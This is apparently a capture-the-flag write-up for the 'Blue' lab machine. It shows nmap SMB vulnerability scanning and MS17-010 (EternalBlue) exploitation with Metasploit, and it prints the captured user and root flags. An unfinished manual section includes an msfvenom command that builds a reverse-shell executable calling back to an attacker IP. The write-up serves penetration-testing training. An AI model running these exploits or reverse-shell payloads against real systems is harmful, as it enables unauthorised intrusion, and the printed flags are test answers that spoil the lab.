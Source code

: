 # Blue
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's scan the host given using nmap.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548655-c761e148-c1bf-4b32-a17e-8c1a72c690fb.png)


![image](https://user-images.githubusercontent.com/70703371/210548679-5dd82615-0a4e-44e9-a4bf-2cd51961c46b.png)


2. Based from the output, we know that port 445 shall be our interests, because it seems running some types of network shares. Remember that 139 & 445 is SMB port, so let's check nmap scripts about `smb-vuln`. Now only what now we know that we're working with `windows 7`.
3. Simply run this command:

```
ls /usr/share/nmap/scripts | grep smb-vuln
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548775-11ed93fa-0149-40a9-920a-1257c94d9989.png)


4. Now let's use all of them for port 139 & 445.

```
nmap --script smb-vuln* -p 139,445 10.10.10.40
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210548814-20b88593-4861-4a8e-a675-e21edf35b868.png)


5. As we can see the vuln here is we can do RCE, also we got the link references:

![image](https://user-images.githubusercontent.com/70703371/210548936-bad60e4f-f1df-4909-83f4-d59a102c7e0e.png)


6. Anyway, i will try to use the **metasploit** first, then i'll try to solve it without metasploit.

### WITH METASPLOIT

1. First, open **msfconsole**, then input this command -> `search ms17-010`

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210549303-6f6bd9b9-3f1f-410c-b3af-6df4c444cee0.png)


2. The modules we want to use must be `0` , `2`, and `3`. But let's try with `0` and `2` first.

```
Reason:
The 1st module -> Is intended for windows 8, which is not the system.
The 3rd module -> Is auxiliary, though it says command execution, let's put is last. 
The 4th module -> Is a scanner.
The 5th module -> Is using a backdoor (must be on the system already).
```

3. Let's type `use 0`.

> RESULT - set the RHOSTS and lhost

![image](https://user-images.githubusercontent.com/70703371/210550559-ac898d76-deac-4ca8-8222-543969989a1d.png)

4. Type `exploit`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210550767-4e327376-f153-4d65-bfdf-3e1ffbb8dbcb.png)


![image](https://user-images.githubusercontent.com/70703371/210550828-15d51f7d-6a90-4a73-96f7-c55d5ab6a9d5.png)


5. Great! Turns out we're already the root.
6. Let's set the mode to stable shell.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210550911-30353853-3911-433f-91c0-2970f22412fb.png)


7. When i tried to list all the directories, we got many directories. But our interest here is to jump to the `Users` or `users` directory.
8. Let's try one of them.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551510-4fe09bf9-069e-4536-b46f-1988c57e440a.png)


9. Got it, now let's lists it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551605-019e6678-2cef-4fb8-a707-34de82dfb9fc.png)


10. Let's jump to `harris` -> `Desktop`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551720-de8cc37e-ad94-460d-9dd5-86acebb56073.png)


![image](https://user-images.githubusercontent.com/70703371/210551749-b6f42d66-1e49-4390-b906-5e30048ebe5c.png)


11. Got the user flag!

## USER FLAG (WITH METASPLOIT)

```
32e24b1a214c952a07446d5317505f5a
```

12. Now to get the root, let's jump to the `Administrator` directory, then go to `Desktop`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210551976-4e651bfd-1885-4582-b0ed-53acb1b7fad5.png)


![image](https://user-images.githubusercontent.com/70703371/210552024-5810ae0c-fcf4-4075-af40-2de49d59ad91.png)


13. Got the root flag!

## ROOT FLAG (WITH METASPLOIT)

```
0f6cf23df2d2c550f6c7f42eab29077c
```


### WITHOUT METASPLOIT APPROACH (UNFINISHED)

1. Now without the metasploit, let's see if there's any python script we can use in the `exploitdb`.

```
searchsploit ms17-010
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210553394-148e224b-539a-4d3b-ba17-c575aea9bfbb.png)


2. Since we're working with windows 7, let's download this one:

![image](https://user-images.githubusercontent.com/70703371/210553802-74515538-e44c-40e6-bd79-0f0d65091f96.png)


```
searchsploit -m 42315
```


![image](https://user-images.githubusercontent.com/70703371/210554128-f7c81f1a-c0b9-4039-8ffa-01978ed64d5e.png)


3. Anyway let's try to run the script to see if there are any python requirement we need to install first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210554324-943b11a3-a895-43ed-90bb-7994c09a1183.png)


> SOLUTION - THE LINK IS COMMENTED INSIDE THE SCRIPT

![image](https://user-images.githubusercontent.com/70703371/210554824-fa5a49a4-151d-46ae-95f1-a1257efec6f5.png)


4. Since the repository is no longer available, i used this one:

```
https://github.com/worawit/MS17-010/blob/master/mysmb.py
```

5. Hence we got 2 scripts now.

![image](https://user-images.githubusercontent.com/70703371/210555874-7f47e553-e85c-4ff0-9698-332d4e5bef0e.png)


6. Next, we need to use **msfvenom** to generate a simple executeable which has reverse shell payload.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f exe > reverseShell.exe
```

> RESULT


![image](https://user-images.githubusercontent.com/70703371/210556365-cb542630-1c0b-4676-acee-0c03d90141d9.png)


7. Now we need to change the exploit to add credentials, since we don't have any creds, let's check with `enum4linux` whether the machine allows us to enter guest username.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210557036-2218b368-de11-4687-b0d7-44b598d5088c.png)


8. Great we're allowed then.
9. Now let's do few changes for 42315.py

![image](https://user-images.githubusercontent.com/70703371/210558184-96b90145-7683-4579-aac2-1fe0ac845d17.png)





